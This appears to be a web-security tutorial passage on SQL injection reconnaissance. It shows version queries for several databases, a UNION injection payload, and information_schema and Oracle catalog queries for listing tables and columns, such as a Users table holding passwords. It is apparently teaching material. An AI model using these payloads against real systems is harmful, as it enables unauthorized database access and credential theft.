 # Examining the database
## Get db version
Database type |	Query
---|---
Microsoft, MySQL | 	SELECT @@version
Oracle | 	SELECT * FROM v$version
PostgreSQL 	| SELECT version() 

For example, you could use a UNION attack with the following input:
```
' UNION SELECT @@version--
```

## Listing the contents of the database
Most database types (except Oracle) have a set of views called the information schema. This provides information about the database.

For example, you can query 'information_schema.tables' to list the tables in the database:
```
SELECT * FROM information_schema.tables
```
This returns output like the following: 
```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```
This output indicates that there are three tables, called 'Products', 'Users', and 'Feedback'. 

You can then query 'information_schema.columns' to list the columns in individual tables: 
```
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```
This returns output like the following: 
```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

## Listing the contents of an Oracle database
On Oracle, you can find the same information as follows:
- You can list tables by querying all_tables:
```
SELECT * FROM all_tables
```
- You can list columns by querying all_tab_columns:
```
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```
